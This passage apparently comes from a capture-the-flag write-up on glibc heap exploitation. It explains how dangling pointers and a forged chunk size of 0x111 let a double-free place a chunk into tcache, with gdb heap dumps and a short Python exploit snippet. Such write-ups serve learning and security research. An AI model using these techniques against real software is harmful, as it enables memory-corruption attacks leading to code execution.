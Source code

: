 ```
Top chunk | PREV_INUSE
Addr: 0x558e414866e0
Size: 0x1e921
```

This may look exactly the same as the snapshot of the heap before, however there is one difference. Despite being free'd, we still have references to chunks 0, and 2 in our `chunks` array:

```
0x558e409ab060 <chunks>:        0x0000558e414844c0      0x0054696d616f6877
0x558e409ab070 <chunks+16>:     0x0000558e414849d0      0x0054696d616f6877
0x558e409ab080 <chunks+32>:     0x0000000000000000      0x0054696d616f6877
0x558e409ab090 <chunks+48>:     0x0000000000000000      0x0054696d616f6877
0x558e409ab0a0 <chunks+64>:     0x0000000000000000      0x0054696d616f6877
0x558e409ab0b0 <chunks+80>:     0x0000000000000000      0x0054696d616f6877
```

0 points the start of chunk 7, where it was chopped off from. And 2 points 0x500 bytes into the bigger chunk. What does this mean? Well this wouldn't normally be a problem, but since we have the ability to double-free any chunk we like, if chunk 2 LOOKED like an authentic chunk we could `free()` it again.

Since 2 points into the user-portion of the free `unsorted` chunk, if someone was to request an allocation with the size of the chunk, and then fill it with fake metadata at offset 0x500, you could make allocation 2 LOOK authentic.

This is exactly what we do next:

```py
alloc(4, 0x2000, b'A'*0x508 + p64(0x111))

sice(2)
sice(0)
```

We request an allocation that can be fulfilled by our free `unsorted` chunk, then we fill it up to 0x508 bytes deep with garbage. Then we provide a fake `size` of 0x111. This is enough to convince `free` that our chunk is valid, you can thank tcache for that :).

Now when we `free` 2, a chunk will be added to the tcache. Since 0 holds a pointer to the start of the `unsorted` chunk we can use that to `free` it again for further use.

After this point, our heap looks extremely familiar:

```
Allocated chunk | PREV_INUSE
Addr: 0x55dc4f720000
Size: 0x291

Allocated chunk | PREV_INUSE
Addr: 0x55dc4f720290
Size: 0x221

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55dc4f7204b0
Size: 0x2011
fd: 0x7f6849936be0
bk: 0x7f6849936be0

Free chunk (tcache)
Addr: 0x55dc4f7224c0
Size: 0x110
fd: 0x00

Allocated chunk | PREV_INUSE
Addr: 0x55dc4f7225d0
Size: 0x111

```